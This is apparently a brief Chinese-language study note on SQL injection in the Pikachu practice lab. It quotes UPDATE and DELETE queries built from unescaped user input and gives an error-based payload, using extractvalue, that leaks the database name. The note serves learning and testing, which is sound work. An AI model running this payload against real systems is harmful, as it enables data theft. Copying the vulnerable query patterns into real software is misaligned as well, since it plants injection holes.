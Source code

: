 

### pikachu_update注入

源码: `update member set sex='{$getdata['sex']}',phonenum='{$getdata['phonenum']}',address='{$getdata['add']}',email='{$getdata['email']}' where username='{$_SESSION['sqli']['username']}' `

![局部截取_20250518_153511](./img/局部截取_20250518_153511.png)



# del注入

直接看示例: 

pikachu_del 源码： `delete from message where id={$_GET['id']}`

payload : `?id=1 or extractvalue(1,concat('~',database()))`

![局部截取_20250518_155141](./img/局部截取_20250518_155141.png)

